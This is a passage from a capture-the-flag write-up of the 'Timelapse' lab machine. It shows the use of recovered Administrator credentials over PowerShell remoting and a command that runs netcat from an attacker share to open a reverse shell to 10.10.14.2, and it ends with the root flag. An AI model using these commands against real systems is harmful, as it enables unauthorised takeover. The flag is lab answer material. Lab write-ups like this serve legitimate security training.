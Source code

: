 A new set of creds: `Administrator:6+e(2G,L;TK5+eGy%gJ8s.2X`

```powershell
PS C:\Users\svc_deploy\Desktop> $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
PS C:\Users\svc_deploy\Desktop> $p = ConvertTo-SecureString '6+e(2G,L;TK5+eGy%gJ8s.2X' -AsPlainText -Force
PS C:\Users\svc_deploy\Desktop> $c = New-Object System.Management.Automation.PSCredential ('Administrator', $p)
PS C:\Users\svc_deploy\Desktop> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
timelapse\administrator

PS C:\Users\svc_deploy\Desktop> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {//10.10.14.2/share/nc64.exe 10.10.14.2 4499 -e powershell}

➜  timelapse rlwrap nc -lvnp 4499
listening on [any] 4499 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.152] 64806
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
```

--------------

### Step 4
The flag, `root.txt`, is not in it's normal directory (`C:\Users\Administrator\Desktop\root.txt`). 
Looking around we find the flag in user `TRX` directory.

```powershell
PS C:\Users\TRX\Desktop> type root.txt
5f0405eed578c041a6f9ad86d0318e82
```

------

# References
**.pfx to .key & .crt:**
https://medium.com/beingcoders/easy-way-to-convert-pfx-to-crt-key-files-in-10-minutes-683849242c65
